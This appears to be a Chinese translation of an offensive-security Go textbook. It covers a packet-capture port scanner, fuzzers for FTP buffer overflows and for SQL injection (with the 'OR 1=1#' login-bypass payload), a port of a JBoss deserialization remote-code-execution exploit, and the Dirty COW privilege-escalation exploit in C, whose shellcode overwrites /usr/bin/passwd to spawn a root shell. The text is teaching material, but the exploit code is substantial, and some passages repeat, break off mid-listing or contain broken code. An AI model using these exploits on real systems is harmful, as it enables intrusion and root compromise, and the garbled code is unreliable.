	filter   = "tcp[13] == 0x10 or tcp[13] == 0x18"
	devFound = false
	results  = make(map[string]int)
)

func capture(iface, target string) {
	handle, err := pcap.OpenLive(iface, snaplen, promisc, timeout)
	if err != nil {
		log.Fatal(err)
	}

	defer handle.Close()
	if err := handle.SetBPFFilter(filter); err != nil {
		log.Fatal(err)
	}

	fmt.Println("Capturing...")
	source := gpacket.NewPacketSource(handle, handle.LinkType())
	for packet := range source.Packets() {
		networkLayer := packet.Layer(layers.IPv4)
		if networkLayer == nil {
			continue
		}

		transportLayer := packet.Layer(layers.TCP)
		if transportLayer == nil {
			continue
		}

		srcHost := networkLayer.(*layers.IPv4).SrcIP.String()
		if srcHost != target {
			continue
		}

		srcPort := transportLayer.(*layers.TCP).SrcPort.String()
		fmt.Printf("Trying: %s\n", srcPort)
		c, err := net.DialTimeout("tcp", fmt.Sprintf("%s:%s", target, srcPort), 1000*time.Millisecond)
		if err != nil {
			continue
		}
		c.Close()
		results[srcPort]++
	}
}

func main() {
	if len(os.Args) != 3 {
		log.Fatalf("Usage: %s <interface> <target>", os.Args[0])
	}

	iface := os.Args[1]
	target := os.Args[2]

	devices, err := pcap.FindAllDevs()
	if err != nil {
		log.Fatal(err)
	}

	devFound := false
	for _, device := range devices {
		if device.Name == iface {
			devFound = true
			break
		}
	}

	if !devFound {
		log.Fatalf("Device named %s does not exist", iface)
	}

	go capture(iface, target)
	time.Sleep(2 * time.Second)
	for port, confidence := range results {
		if confidence >= 1 {
			fmt.Printf("Port %s open: %d\n", port, confidence)
		}
	}
}
```

列表 8-6：带有 `SYN-flood` 保护的扫描和包处理 (`/ch-8/syn-flood/main.go`)

你的目标端口，通过逐一遍历它们并调用 `net.DialTimeout` 来尝试对每个端口建立 `TCP` 连接。你的协程（`routine`）正在运行，积极地监控这些连接尝试，寻找指示服务正在监听的数据包。

在你尝试连接到每个端口后，处理所有处理结果，并仅显示置信度水平为 1 或更高的端口（这意味着至少有一个数据包匹配你为该端口设置的过滤器）。代码包含了多次调用，以确保你留出了足够的时间来设置嗅探器并处理数据包。

让我们看看列表 8-7 所示的程序运行示例。

```
$ go build -o syn-flood & sudo ./syn-flood enp0s 10.1.100.100
80,443,8123,65530
Capturing packets
Trying 10.1.100.100:80
Trying 10.1.100.100:443
Trying 10.1.100.100:8123
Trying 10.1.100.100:65530
Port 80 open (confidence: 1)
Port 443 open (confidence: 1)
```

列表 8-7：带有置信度评分的端口扫描结果

测试成功确定了端口 80 和 443 都是的。它还确认了端口 8123 和 65530 没有服务在监听（注意我们更改了示例中的 IP 地址以保护无辜者）。

你可以通过多种方式改进代码。作为学习练习，我们挑战你添加以下增强功能：

1. 从 `capture()` 函数中移除网络和传输层逻辑以及源检查。相反，向 `BPF` 过滤器中添加额外的参数，以确保你只捕获来自目标 IP 和端口的数据包。
2. 将端口扫描的顺序逻辑替换为并发方案，类似于我们在之前的章节中演示的那样。这将提高效率。
3. 不要将代码限制在单个目标 IP，而是允许用户提供 IP 列表或网络块。

## 总结

我们完成了对数据包捕获的讨论，主要关注被动嗅探活动。在下一章中，我们将重点关注漏洞开发。

# 9 编写与移植漏洞代码


在之前的大多数章节中，你使用 `Go` 创建了基于网络的攻击。你已经探索了原始 `TCP`、`HTTP`、`DNS`、`SMB`、数据库交互以及被动数据包捕获。

本章的重点转变为识别和利用漏洞。首先，你将学习如何创建一个漏洞模糊测试器（`fuzzer`）来发现应用程序的安全弱点。然后，你将学习如何将现有的漏洞移植到 `Go`。最后，我们将向你如何使用流行的工具创建 `Go` 友好的壳代码（`shellcode`）。到本章结束，你应该对如何使用 `Go` 发现缺陷有基本的理解，同时也使用它来编写和交付各种载荷（`payload`）。

## 创建模糊测试器

模糊测试（`Fuzzing`）是一种向应用程序发送大量数据的技术，目的是尝试强制应用程序产生异常行为。这种行为可以揭示编码错误或安全缺陷，你之后可以对其进行利用。

对应用程序进行模糊测试还可能产生不希望的副作用，例如资源耗尽、内存损坏和服务中断。这些副作用中的某些对于漏洞猎人和漏洞开发者完成工作是必要的，但对应用程序的稳定性是有利的。因此，始终在控制的实验室环境中执行模糊测试至关重要。与我们讨论的大多数技术一样，如果没有所有者的明确授权，不要对应用程序或系统进行模糊测试。

在本节中，你将构建两个模糊测试器。第一个将检查输入的容量，尝试崩溃服务并识别缓冲区溢出。第二个模糊测试器将重放 `HTTP` 请求，循环遍历可能的输入值以检测 `SQL` 注入。

## 缓冲区溢出模糊测试

缓冲区溢出发生在用户在输入中提交的数据超过了应用程序分配的内存空间。例如，用户可能提交 5,000 个字符，而应用程序仅预期接收 5 个。如果程序使用了错误的技术，这可能允许用户将额外数据写入并非为此用途的内存部分。这种“溢出”会破坏存储在相邻内存位置中的数据，允许恶意用户可能导致程序或更改其逻辑流。

缓冲区溢出对于接收客户端数据的网络程序具有特别大的影响。使用缓冲区溢出，客户端可以破坏服务器的可用性，并可能实现远程代码执行。值得重申：除非获得许可，否则不要对系统或应用程序进行模糊测试。此外，确保你完全理解崩溃系统或服务的后果。

### 缓冲区溢出模糊测试的工作原理

通过模糊测试创建缓冲区溢出通常涉及提交越来越长的输入，使得后续每个请求都包含一个长度比上一次尝试长一个字符的输入值。使用 `A` 字符作为输入的刻意示例将按照表 9-1 所示的模式执行。

通过向漏洞函数发送大量输入，你最终将达到一个输入长度超过缓冲区大小点，这将损坏指令指针。此时，应用程序将崩溃。

表 9-1：缓冲区溢出中的输入值

| 尝试次数 | 输入值 |
|---|---|
| 1 | `A` |
| 2 | `AA` |
| 3 | `AAA` |
| 4 | `AAAA` |
| N | 重复 N 次的 `A` |

对于 `PASS` 的输入，你最终可能会被锁定。

```go
func main() {
	for i := 0; i < 2500; i++ {
		conn, err := net.Dial("tcp", "10.0.1.20:21")
		if err != nil {
			log.Printf("! Error at offset: %s\n", i, err)
			continue
		}

		bufio.NewReader(conn).ReadString("\n")
		user := ""
		for n := 0; n <= i; n++ {
			user += "A"
		}
		raw := "USER %s\n"
		fmt.Fprintf(conn, raw, user)
		bufio.NewReader(conn).ReadString("\n")
		raw = "PASS password\n"
		fmt.Fprint(conn, raw)
		bufio.NewReader(conn).ReadString("\n")
		if err := conn.Close(); err != nil {
			log.Printf("! Error at offset: %s\n", i, err)
		}
	}
}
```


## 列表 9-1: 一个缓冲区溢出模糊测试器

该代码本质上是一个巨大的循环，从 `1` 开始。程序每次循环时，它都会向你提供的用户名中再添加一个字符。在这种情况下，你将发送长度从 `1` 到 `2,500` 个字符的用户名。

在循环的每次迭代中，你都会向目标 `FTP` 服务器建立一个 `TCP` 连接。每当你与 `FTP` 服务进行交互时（无论是初始连接还是随后的命令），你都会显式地以单行的形式读取服务器的响应。这允许代码在等待 `TCP` 响应时阻塞，从而确保你不会在包完成往返之前过早发送命令。然后，你使用另一个 `for` 循环按照我们之前显示的方式构建由许多 `A` 组成的字符串。你使用外层循环的索引 `i` 来构建取决于当前循环迭代的字符串长度，因此每次程序重新开始时，长度都会增加。你使用该值通过 `fmt.Fprintf(conn, raw, user)` 写入 `USER` 命令。

虽然你可以在此处结束与 `FTP` 服务器的交互（毕竟，你只对 `USER` 命令进行模糊测试），但你继续发送 `PASS` 命令以完成事务。最后，你干净地关闭了连接。

值得注意的是，有两个点，异常的连接行为可能表明服务中断，从而意味着潜在的缓冲区溢出：当连接首次建立时和连接关闭时。如果下次程序循环时无法建立连接，那么很可能发生了问题。此时你将检查服务是否因为缓冲区溢出而导致崩溃。

如果你在建立连接后无法关闭连接，这可能表明远程 `FTP` 服务异常断开连接的异常行为，但可能不是由缓冲区溢出引起的。异常状况会被记录，但程序将继续运行。

`图 9-1` 所示的数据包捕获显示，随后的每个 `USER` 命令长度都在增加，这证实了你的代码按预期工作。

| 序号 | 源 | 目的地 | 协议 | 长度信息 |
|---|---|---|---|---|
| 6 | 80.28245944 | 18.0.1.20 | FTP | 75 请求: USER A |
| 26 | 72.09769521 | 18.0.1.20 | FTP | 76 请求: USER AA |
| 36 | 68.81693863 | 18.0.1.20 | FTP | 77 请求: USER AAA |
| 51 | 53.10856956 | 18.0.1.20 | FTP | 78 请求: USER AAAA |
| 66 | 13.34334878 | 18.0.1.20 | FTP | 79 请求: USER AAAAA |
| 81 | 68.18222943 | 18.0.1.20 | FTP | 80 请求: USER AAAAAA |
| 95 | 18.95242319 | 18.0.1.20 | FTP | 81 请求: USER AAAAAAA |
| 114 | 24.17275499 | 18.0.1.20 | FTP | 82 请求: USER AAAAAAA |
| 132 | 37.08277148 | 18.0.1.20 | FTP | 83 请求: USER AAAAAAAA |
| 147 | 38.10792892 | 18.0.1.20 | FTP | 84 请求: USER AAAAAAAA |
| 162 | 54.14409964 | 18.0.1.20 | FTP | 85 请求: USER AAAAAAAAA |
| 177 | 53.17104976 | 18.0.1.20 | FTP | 86 请求: USER AAAAAAAAA |
| 192 | 46.53703064 | 18.0.1.20 | FTP | 87 请求: USER AAAAAAAA |
| 205 | 43.2096828 | 18.0.1.20 | FTP | 88 请求: USER AAAAAAAAA |
| 219 | 46.04403372 | 18.0.1.20 | FTP | 89 请求: USER AAAAAAAAA |
| 241 | 50.29719748 | 18.0.1.20 | FTP | 90 请求: USER AAAAAAAA |
| 256 | 53.29069967 | 18.0.1.20 | FTP | 91 请求: USER AAAAAAAAA |
| 270 | 57.2605770 | 18.0.1.20 | FTP | 92 请求: USER AAAAAAAA |
| 284 | 60.2451382 | 18.0.1.20 | FTP | 93 请求: USER AAAAAAA |
| 298 | 63.4537156 | 18.0.1.20 | FTP | 94 请求: USER AAAAA |
| 313 | 66.9429269 | 18.0.1.20 | FTP | 95 请求: USER AAAA |
| 328 | 69.6834496 | 18.0.1.20 | FTP | 96 请求: USER AAA |
| 342 | 73.1833702 | 18.0.1.20 | FTP | 97 请求: USER AA |
| 357 | 76.9084490 | 18.0.1.20 | FTP | 98 请求: USER A |
| 372 | 80.1652741 | 18.0.1.20 | FTP | 99 请求: USER |

`图 9-1`: 显示了长度不断增加的 `USER` 命令。

### SQL 注入模糊测试

在本节中，我们将探索 `SQL` 注入测试。

### SQL 注入的工作

`SQL` 注入本质上允许攻击者在语句中插入 `SQL` 元字符，从而操纵查询产生非预期的行为或返回敏感数据。问题发生在开发者盲目将不可信的数据连接到他们的 `SQL` 语句中，如伪代码所示：

```python
username = HTTP_GET["username"]

query = "SELECT FROM users WHERE username = '" + username + ' '"

result = db.execute(query)

if(len(result) > 0) {
    return AuthenticationSuccess
} else {
  return AuthenticationFailed()
}
```

在我们的伪代码中，用户名变量直接从 `HTTP` 参数读取。用户名变量的值没有经过过滤或验证。你使用该值构建查询字符串，将其连接到 `SQL` 查询语句上。程序对数据库执行查询并检查结果。如果发现至少一条记录，我们就认为身份验证成功。只要提供的用户名由字母数字和某些特殊字符组成，代码的行为应该是正常的。例如，在以下安全查询中提供用户名 `alice`：

```sql
SELECT * FROM users WHERE user = 'alice'
```

然而，当用户提供的用户名包含单引号时会发生什么？提供用户名 `o'doyle` 会产生以下查询：

```sql
SELECT * FROM users WHERE user = 'o'doyle'
```

问题在于，后端数据库现在看到了数量不等的单引号。注意上述查询中的强调部分 `doyle`；后端数据库将其解释为 `SQL` 语法，因为它位于闭引号之外。这显然是无效的 `SQL` 语法，后端数据库无法处理它。对于错误型 `SQL` 注入，这会在 `HTTP` 响应中产生错误消息。该消息本身取决于数据库。在 `MySQL` 的情况下，你会收到一个类似下面的错误，可能还会包含显示查询本身的额外详细信息：

> You have an error in your SQL syntax

尽管我们不会深入探讨利用，但你现在可以操纵用户名输入，产生一个有效的 `SQL` 查询，从而绕过我们示例中的身份验证。当将用户名输入 `'OR 1=1#` 置于以下 `SQL` 语句中时，它实现了这一点：

```sql
SELECT * FROM users WHERE user = '' OR 1=1#
```

此输入在查询末尾添加了一个逻辑 `OR`。这个 `OR` 语句的评估值为真，因为 `1` 始终等于 `1`。你使用 `MySQL` 注释符号 (`#`) 来强制后端数据库忽略查询的剩余部分。这产生了一个有效的 `SQL` 语句，假设数据库中存在一行或多行，你可以用它来绕过上述伪代码示例中的身份验证。

### 构建 SQL 模糊器

你的模糊器（`fuzzer`）的目的并不是生成语法有效的 `SQL` 语句。恰恰相反，你希望破坏查询，使格式错误的语法导致后端数据库返回错误，如所示。为此，首要任务是分析目标请求。通过检查 `HTML` 源代码、使用 `Wireshark` 捕获网络包，你确定提交登录的 `HTTP` 请求类似于以下：

```http
POST /login.jsp HTTP/1.1
Host: 10.0.0.2:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*;q=0.8
Accept-Language: en-US,q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/www-form-urlencoded
Content-Length: 35
Referer: http://10.0.0.2:8080/login.jsp
Cookie: JSESSIONID=55A87C06BDE571
Connection: keep-alive
Upgrade:

username=some&password=pass
```

登录表单向 `http://10.0.0.2:8080/login.jsp` 发送 `POST` 请求。有两个表单参数：`username` 和 `password`。为了简单起见，我们将模糊测试限制在 `username` 字段上。代码本身相当紧凑，由几个循环、一些正则表达式以及 `HTTP` 请求的创建组成。

```go
func main() {
    payloads := []string{
        "'",
        "",
    }

    sqlErrors := []string{
      "SQL",
      "MySQL",
      "syntax",
    }

    errRegexes := []*regexp.Regexp{}

    for _, e := range sqlErrors {
      re := regexp.MustCompile(fmt.Sprintf(".*%s.*", e))
      errRegexes = append(errRegexes, re)
    }

    for _, payload := range payloads {
      client := new(http.Client)
      body := []byte(fmt.Sprintf("username=%s&password=%s", payload, "pass"))
      req, err := http.NewRequest(
        "POST",
        "http://10.0.0.2:8080/login.jsp",
        bytes.NewReader(body),
      )

      if err != nil {
        log.Fatalf("Unable to generate request: %s", err)
      }

      req.Header.Add("Content-Type", "application/x-form-urlencoded")

      resp, err := client.Do(req)

      if err != nil {
        log.Fatalf("Unable to process response: %s", err)
      }

      body, err := ioutil.ReadAll(resp.Body)

      if err != nil {
        log.Fatalf("Unable to read body: %s", err)
      }

      resp.Body.Close()

      for idx, re := range errRegexes {
        if re.MatchString(string(body)) {
          fmt.Printf(
            "[+] SQL Error ('s') for payload: %s\n",
            sqlErrors[idx],
            payload,
          )
          break
        }
      }
    }
}
```

`列表 9-2`: 一个 `SQL` 注入模糊器 (`/ch-9/http_fuzz/main.go`)

代码开始定义一个你想尝试的 `payload` 切片（`slice`）。这是你的模糊测试列表，稍后你将其作为 `username` 请求参数的值提供。同样，你定义了一个字符串切片，代表 `SQL` 错误消息中的关键字。这些将是你要在 `HTTP` 响应体中搜索的值。这些值中任何一个的出现都是存在 `SQL` 错误消息的强有力指示。你可以扩展这两个列表，但对于此示例来说，这些数据集已经足够。

接下来，你执行了一些预处理工作。对于你想要搜索的每个错误关键字，你构建并编译了一个正则表达式。你在主 `HTTP` 逻辑之外执行此工作，这样就不需要为每个 `payload` 重复创建和编译这些正则表达式。这无疑是一个微小的优化，但仍然是良好的实践。你将使用这些编译后的表达式来填充一个单独的切片以供以后使用。

接下来是模糊器的核心逻辑。你遍历每个 `payload`，使用每个 `payload` 构建一个 `HTTP` 请求体，其 `username` 值为当前 `payload`。你使用结果的值构建一个指向你的登录表单的 `HTTP` `POST` 请求。然后你设置 `Content-Type` 并发送请求。注意，虽然你可以使用 `Go` 的 `http.PostForm()` 实现相同的行为，但这种更详细的方法可以让你对 `HTTP` 头部有更多的控制，特别是如果你感兴趣添加必要的头部头（如 `User-Agent`、`Cookie`）。

运行你的代码以确认它成功识别了漏洞表单中的 `SQL` 注入。如果你为用户名值提供一个单引号，你将获得错误指示，如下：

```
$ go run main.go
[+] SQL Error ('SQL') for payload: '
```


# Go 标准库包概述

我们鼓励你尝试以下练习以帮助更好地理解代码，并利用等效的 Go 库和函数调用以实现相同的功能。例如，处理字节序（`endianness`）、编码和加密等效项可能需要一些研究，特别是对于那些不熟悉 `Go` 的人来说。幸运的是，我们在之前的章节中已经处理了基于网络通信的复杂性。希望这些实现方式和细节，你应该已经很熟悉了。

你会发现有无数种使用 `Go` 标准包进行漏洞开发和移植的方法。虽然要在这一个章节中全面涵盖这些包和用例是不现实的，但我们鼓励你查阅 `Go` 的官方文档：`https://golang.org/pkg/`。该文档非常详尽，拥有丰富的优秀示例可以帮助你理解函数和包的使用。以下是你在进行漏洞利用时可能最感兴趣的几个包：

-   **`bytes`**: 提供低级字节级操作
-   **`crypto`**: 实现了各种对称和非对称加密以及消息认证
-   **`debug`**: 检查各种文件类型的元数据和内容
-   **`encoding`**: 使用二进制、十六进制（`Hex`）、`Base64` 等常见形式对数据进行编码和解码
-   **`io and bufio`**: 从各种接口读取和写入数据，包括文件系统、标准输出、网络连接等
-   **`net`**: 通过使用 `HTTP` 和 `SMTP` 等协议促进客户端与服务器的交互
-   **`os`**: 执行并与本地操作系统交互
-   **`syscall`**: 暴露了用于执行低级系统调用的接口
-   **`unicode`**: 使用 `UTF-16` 或 `UTF-8` 对数据进行编码和解码
-   **`unsafe`**: 用于在与操作系统交互时避免 `Go` 的类型安全检查

诚然，这些包中的某些在随后的章节中会被证明更有用，特别是在我们讨论低级 `Windows` 交互时，但我们列出此列表供你参考。我们并不尝试详细涵盖这些包，而是向你展示如何使用其中一些包来移植现有的漏洞。

## 从 Python 移植漏洞

在第一个示例中，你将移植一个 2015 年发布的 `Java` 反序列化漏洞利用。该漏洞被归类为多个 `CVE`，影响了常用应用程序、服务器和库中 `Java` 对象的反序列化。¹ 该漏洞是由反序列化库引入的，该库在服务器端执行之前没有验证输入（这是漏洞的常见原因）。我们将重点放在了利用 `JBoss` 上，这是一个流行的 `Java` 企业版应用程序服务器。

在 `https://github.com/roo7break/serializer/blob/master/serializer.py` 中，你会找到一个 `Python` 脚本，其中包含了利用多个应用程序中该漏洞的逻辑。列表 9-3 提供了你将复制的逻辑。

```python
def jboss_attack(HOST, PORT, SSL_On, _cmd):
```

### 下面代码基于 Nessus 中的 jboss_java_serialize.nasl 脚本

此函数为 `JBoss` 设置攻击载负载

```python
body_serObj += hex2raw3("ACED000573720032737--SNIPPED FOR BREVITY--0174000")
```

```python
cleng = len(_cmd)
body_serObj += chr(cleng) + _cmd
body_serObj += hex2raw3("7400046578653675771--SNIPPED FOR BREVITY-7E003A")
```

```python
if SSL_On:
    webservice = httplib2.Http(disable_ssl_certificate_validation=True)
    URL_ADDR = "%s:%s:%s" ('%s',HOST,PORT)
else:
    webservice = httplib2.Http()
    URL_ADDR = "%s:%s:%s" ('%s',http,PORT)

headers = ("User-Agent":"JBoss_RCE_POC",
    "Content-type":"application/x-java-serialized-object--SNIPPED FOR BREVITY-",
    "Content-length":"%d" % len(body_serObj))

resp, content = webservice.request(
    URL_ADDR+"/invoker/JMXInvokerServlet",
    "POST",
    body=body_serObj,
    headers=headers)

## print provided response.
print("{i} Response received from target:%s", resp)
```

**列表 9-3**: `Python` 序列化漏洞利用代码

让我们来看你在这里处理的内容。该函数接收主机、端口、`SSL` 指示器和操作系统命令作为参数。为了构建正确的请求，函数必须创建一个表示序列化 `Java` 对象的载负载。该脚本首先将字节硬编码到名为 `body_serObj` 的变量中。这些字节为了简洁被截断了，注意它们在代码中以字符串值表示。这是一个十六进制字符串，你需要将其转换为字节数组，以便字符串中的两个字符变成一个单字节表示。例如，你需要将 `AC` 转换为十六进制字节 `\xAC`。为了完成此转换，漏洞利用代码调用了一个名为 `hexraw3` 的函数。该函数的底层实现细节并不重要，只要你理解十六进制字符串发生了什么即可。

接下来，脚本计算操作系统命令的长度，然后将长度和命令追加到 `body_serObj` 变量。② 脚本通过添加代表字符串剩余部分的额外数据来完成载负载的构建。

```go
func jboss_attack(host string, ssl bool, cmd string) (int, error) {
    body_serObj := []byte
    // ... 此处省略部分 Go 代码实现以对应 Python ...
    body_serObj, err := hex.DecodeString("ACED000573720032737--SNIPPED FOR BREVITY--0174000")
    // ...
}
```


利用（exploit）是指确定等效的 Go 库和函数调用以实现相同的功能。例如，处理字节序（endianness）、编码和加密等效项可能需要一些研究，特别是对于那些不熟悉 Go 的人来说。幸运的是，我们在之前的章节中已经处理了基于网络通信的复杂性。希望这些实现方式和细节，你应该已经很熟悉了。

你会发现有无数种使用 Go 标准包进行漏洞开发和移植的方法。虽然要在这一个章节中全面涵盖这些包和用例是不现实的，但我们鼓励你查阅 Go 的官方文档：`https://golang.org/pkg/`。该文档非常详尽，拥有丰富的优秀示例可以帮助你理解函数和包的使用。以下是你在进行漏洞利用时可能最感兴趣的几个包：

- `bytes`: 提供低级字节级操作
- `crypto`: 实现了各种对称和非对称加密以及消息认证
- `debug`: 检查各种文件类型的元数据和内容
- `encoding`: 使用二进制、十六进制（Hex）、Base64 等常见形式对数据进行编码和解码
- `io` 和 `bufio`: 从各种接口读取和写入数据，包括文件系统、标准输出、网络连接等
- `net`: 通过使用 HTTP 和 SMTP 等协议促进客户端与服务器的交互
- `os`: 执行并与本地操作系统交互
- `syscall`: 暴露了用于执行低级系统调用的接口
- `unicode`: 使用 UTF-16 或 UTF-8 对数据进行编码和解码
- `unsafe`: 用于在与操作系统交互时避免 Go 的类型安全检查

诚然，这些包中的某些在随后的章节中会被证明更有用，特别是在我们讨论低级 Windows 交互时，但我们列出此列表供你参考。我们并不尝试详细涵盖这些包，而是向你展示如何使用其中一些包来移植现有的漏洞。

## 从 Python 移植漏洞

在第一个示例中，你将移植一个 2015 年发布的 Java 反序列化漏洞利用。该漏洞被归类为多个 CVE，影响了常用应用程序、服务器和库中 Java 对象的反序列化。¹ 该漏洞是由反序列化库引入的，该库在服务器端执行之前没有验证输入（这是漏洞的常见原因）。我们将重点放在了利用 `JBoss` 上，这是一个流行的 Java 企业版应用程序服务器。

在 `https://github.com/roo7break/serializer/blob/master/serializer.py` 中，你会找到一个 Python 脚本，其中包含了利用多个应用程序中该漏洞的逻辑。列表 9-3 提供了你将复制的逻辑。

```python
def jboss_attack(HOST, PORT, SSL_On, _cmd):
```

### 下面代码基于 Nessus 中的 `jboss_java_serialize.nasl` 脚本

此函数为 `JBoss` 设置攻击载荷

```python
body_serObj += hex2raw3("ACED000573720032737--SNIPPED FOR BREVITY--0174000")
```

```python
cleng = len(_cmd)
body_serObj += chr(cleng) + _cmd
body_serObj += hex2raw3("7400046578653675771--SNIPPED FOR BREVITY-7E003A")
```

```python
if SSL_On:
    webservice = httplib2.Http(disable_ssl_certificate_validation=True)
    URL_ADDR = "%s:%s:%s" ('%s',HOST,PORT)
else:
    webservice = httplib2.Http()
    URL_ADDR = "%s:%s:%s" ('%s',http,PORT)

headers = ("User-Agent":"JBoss_RCE_POC",
    "Content-type":"application/x-java-serialized-object--SNIPPED FOR BREVITY-",
    "Content-length":"%d" % len(body_serObj))

resp, content = webservice.request(
    URL_ADDR+"/invoker/JMXInvokerServlet,
    "POST",
    body=body_serObj,
    headers=headers)

# print provided response.
print("{i} Response received from target:%s", resp)
```

列表 9-3: Python 序列化漏洞利用代码

让我们来看你在这里处理的内容。该函数接收主机、端口、SSL 指示器和操作系统命令作为参数。为了构建正确的请求，函数必须创建一个表示序列化 Java 对象的载荷。该脚本首先将字节硬编码到名为 `body_serObj` 的变量中。这些字节为了简洁被截断了，注意它们在代码中以字符串值表示。这是一个十六进制字符串，你需要将其转换为字节数组，以便字符串中的两个字符变成一个单字节表示。例如，你需要将 `AC` 转换为十六进制字节 `\xAC`。为了完成此转换，漏洞利用代码调用了一个名为 `hexraw3` 的函数。该函数的底层实现细节并不重要，只要你理解十六进制字符串发生了什么即可。

接下来，脚本计算操作系统命令的长度，然后将长度和命令追加到 `body_serObj` 变量 ② 脚本通过添加代表字符串剩余部分的额外数据来完成载荷的构建。

```go
func jboss_attack(host string, ssl bool, cmd string) (int, error) {
```

通过调用 `client.Do(req)` 发送你的恶意请求 ⑥。

大部分情况下，这段代码利用了你已经学过的知识。代码引入了一些小的修改，例如配置 SSL 以忽略无效证书 ④ 以及添加特定的 HTTP 请求头 ⑤。也许我们代码中唯一的新颖元素是使用了 `hex.DecodeString()`，这是一个 Go 核心函数，用于将十六进制字符串转换为其等效表示。在 Python 中，你必须手动执行此操作。表 9-2 显示了一些额外的常用 Python 函数或结构及其对应的 Go 等效实现。

这并不是一个完整的函数映射列表。由于变体和边缘情况太多，无法涵盖迁移漏洞所需的所有可能函数。我们希望这能帮助你至少将一些最常用的 Python 函数翻译为 Go。

### 表 9-2：常用的 Python 函数及其对应的 Go 等效实现

| Python | Go | 备注 |
| --- | --- | --- |
| `hex(x)` | `fmt.Sprintf("%%%#x", x)` | 将整数 `x` 转换为小写十六进制字符串，前缀为 `"0x"` |
| `ord(c)` | `rune(c)` | 用于获取单个字符的整数 (`int32`) 值。适用于标准的 8 位字符串或多字节 Unicode。注意 `rune` 是 Go 中的内置类型，它使得处理 ASCII 和 Unicode 数据变得非常简单。 |
| `chr(i)` and `unichr(i)` | `fmt.Sprintf("%+q")` | Python 中 `ord` 的逆操作，`rune(i)` 对于整数输入返回长度为 1 的字符串。在 Go 中，你使用 `rune` 类型并可以使用 `%+q` 格式序列将其作为字符串检索 |
| `struct.pack(fmt, v1, v2,..)` | `binary.Write(..)` | 创建数据的二进制表示，根据类型和字节序进行适当格式化。 |
| `struct.unpack(fmt, string)` | `binary.Read(..)` | `struct.pack` 和 `binary.Write` 的逆操作。将结构化二进制数据读取到指定的格式和类型中。 |

## 从 C 迁移漏洞

让我们暂时离开 Python，关注 C。可以说，C 语言的可读性可能不如 Python，但 C 与 Go 的相似性比与 Python 更多。这使得从 C 迁移漏洞比你想象的要容易。为了演示，我们将迁移一个 Linux 的本地权限提升漏洞。该漏洞被称为 Dirty COW，涉及 Linux 内核内存子系统的竞态条件。该漏洞在披露时影响了大多数（不是所有）常见的 Linux 和 Android 发行版。该漏洞后来已被修复，因此你需要采取特定措施来重现后续的示例。具体来说，你需要配置一个带有漏洞内核版本的 Linux 系统。这超出了本章的范围；但为了参考，我们使用了内核版本为 3.13.1 的 64 位 Ubuntu 14.04 LTS 发行版。

有很多变体可用。你可以在 `https://www.exploit-db.com/exploits/40616/` 找到我们想要复制的那个。列表 9-5 显示了原始漏洞代码（为了可读性进行了微调）的整体。

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <unistd.h>

void *map;
int f;
int stop = 0;
struct stat st;
char *name;
pthread_t pth1,pth2,pth3;

// 如果没有读取权限则修改
char suid_binary[] = "/usr/bin/passwd";
unsigned char sc[] = {
0x7f, 0x45, 0x4c, 0x46, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
--snip--
0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05
};
unsigned int sc_len = 177;

void *madviseThread(void *arg)
{
char *str;
str=(char*)arg;
int i,c=0;
for(i=0;i<1000000 && !stop;i++) {
 c+=madvise(map,100,MADV_DONTNEED);
}
printf("thread stopped\n");
}

void *procselfmemThread(void *arg) 
{
    char *str;
    str=(char*)arg;
    int f=fopen("/proc/self/mem",O_RDWR);
    int i,c=0;
    for(i=0;i<1000000 && !stop;i++) {
        lseek(f,map,MAP,SEEK_SET);
        c+=write(f, str, sc_len);
    }
    printf("thread stopped\n");
}

void *waitFor(void *arg) { 
    char buf[sc_len];
for(;;) {
        FILE *fp = fopen(suid_binary, "rb");
        read(buf, sc_len, 1, fp);
        if(memcmp(buf, sc, sc_len) == 0) {
            printf("%s is overwritten\n", suid_binary);
            break;
        }
        fclose(fp);
        sleep(1);
    }
}

stop = 1;
printf("Popping shell.\n");
printf("Don't forget to restore /tmp/bak\n");
system(suid_binary);

int main(int argc, char *argv[]) { 
    char *backup;
printf("Dirty COW privilege escalation\n");
printf("Backing up %s.. /tmp/bak", suid_binary);
sprintf(backup, "cp %s /tmp/bak", suid_binary);
system(backup);
f = open(suid_binary,O_RDONLY);
fstat(f,&st);
printf("Size of binary: %d\n", st.st_size);
char payload[st.st_size];memset(payload, 0x90, st.st_size);
memcpy(payload, sc, len);
map = mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
printf("Racing, this may take a while.\n");
pthread_create(&pthread1, NULL,&madviseThread,suid_binary);
pthread_create(&pthread2, NULL,&procselfmemThread,payload);
pthread_create(&pthread3, NULL,&waitFor,NULL);
pthread_join(pthread3, NULL);
return 0;
}
```

列表 9-5：用 C 语言编写的 Dirty COW 漏洞

与其解释 C 代码的细节，不如泛泛观察它，并将其分成部分与 Go 进行逐行比较。漏洞定义了一些恶意 shellcode，采用可执行和链接格式 (ELF)，生成一个 Linux shell。它通过创建多个调用各种函数的线程以特权用户身份执行代码并写入内存。最终，shellcode 通过覆盖一个设置了 SUID 位且属于 root 用户的文件来利用漏洞。在这种情况下，该文件是 `/usr/bin/passwd`。通常，非 root 用户无法覆盖文件。但由于 Dirty COW 漏洞，你可以在保留权限的同时写入任意内容，从而实现权限提升。

现在让我们将 C 代码分解为易理解的部分，并将其每个部分的 Go 等效实现进行比较。注意 Go 版本专门尝试逐行复制 C 版本。列表 9-6 显示了 C 在函数外部定义或初始全局变量，而列表 9-7 显示了它们在 Go 中的形式。

```c
void *map;
int f;
int stop = 0;
struct stat st;
char *name;
pthread_t pth1,pth2,pth3;

// 如果没有读取权限则修改
char suid_binary[] = "/usr/bin/passwd";
unsigned char sc[] = {
0x7f, 0x45, 0x4c, 0x46, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
--snip--
0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05
}
unsigned int sc_len = 177;
```
列表 9-6：C 中的初始化

```go
var mapp uintptr
var signals = make(chan bool, 2)

const SuidBinary = "/usr/bin/passwd"
var sc = []byte{
